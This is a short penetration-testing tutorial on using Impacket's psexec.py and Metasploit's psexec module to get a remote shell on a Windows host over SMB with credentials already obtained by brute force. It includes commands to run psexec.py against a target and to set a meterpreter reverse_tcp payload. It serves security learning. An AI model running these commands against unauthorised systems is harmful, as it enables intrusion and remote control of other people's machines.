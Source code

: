 
### How to use `psexec.py` to login with `SMB`?

*We are assuming that we've already brute-forced SMB to find the login credentials.*

1. We can use the `locate` command to get the path to the `psexec.py` file.

2. The file is stored in the following path
```
/usr/share/doc/python3-impacket/examples/psexec.py
```

3. We can copy the Python file in the `pwd` to make it more accessible using the `cp` command.

4. Give the `psexec.py` executable permissions. 
```
chmod +x psexec.py
```

5. Login using `psexec`.
```
python3 psexec.py <username>@<target-ip> 
```
 
6. `psexec.py` will then login and gave us a command shell session by uploading and executing a reverse shell payload.

### `MSF` module to use `psexec`

1. Metasploit comes with a module for `psexec`. It requires that we already know the login credentials.
```
use exploit/windows/smb/psexec
```

2. Set the payload.
```
set payload windows/x64/meterpreter/reverse_tcp
```

3. This will provide us a with a `meterpreter` shell.
